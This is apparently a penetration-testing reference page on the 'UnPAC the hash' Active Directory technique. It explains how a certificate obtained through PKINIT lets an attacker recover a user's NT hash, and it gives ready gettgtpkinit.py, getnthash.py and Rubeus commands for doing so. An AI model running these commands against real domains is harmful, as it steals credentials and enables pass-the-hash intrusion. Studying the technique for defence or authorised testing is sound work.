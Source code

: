 # UnPAC the hash

## Explanation

### When using PKINIT to obtain a TGT (Ticket Granting Ticket), the KDC (Key Distribution Center) includes in the ticket a PAC_CREDENTIAL_INFO structure containing the NTLM keys (i.e. LM and NT hashes) of the authenticating user. This feature allows users to switch to NTLM authentications when remote servers don't support Kerberos, while still relying on an asymmetric Kerberos pre-authentication verification mechanism (i.e. PKINIT).

### The NTLM keys will then be recoverable after a TGS-REQ through U2U, combined with S4U2self, which is a Service Ticket request made to the KDC where the user asks to authenticate to itself (i.e. S4U2self + User-to-User authentication).

### It allows attackers that know a user's private key, or attackers able to conduct Shadow Credentials or Golden certificate attacks, to recover the user's LM and NT hashes.

## Exploitation

## Linux

#### 1) The first step consists in obtaining a TGT by validating a PKINIT pre-authentication first.

 - gettgtpkinit.py -cert-pfx "PATH_TO_CERTIFICATE" -pfx-pass "CERTIFICATE_PASSWORD" "FQDN_DOMAIN/TARGET_SAMNAME" "TGT_CCACHE_FILE"

#### 2) Once the TGT is obtained, and the session key extracted (printed by gettgtpkinit.py), the getnthash.py script can be used to recover the NT hash.

 - export KRB5CCNAME="TGT_CCACHE_FILE"

 - getnthash.py -key 'AS-REP encryption key' 'FQDN_DOMAIN'/'TARGET_SAMNAME'

### The NT hash can be used for pass-the-hash, silver ticket, or Kerberos delegations abuse.

## Windows

 - Rubeus.exe asktgt /getcredentials /user:"TARGET_SAMNAME" /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /show
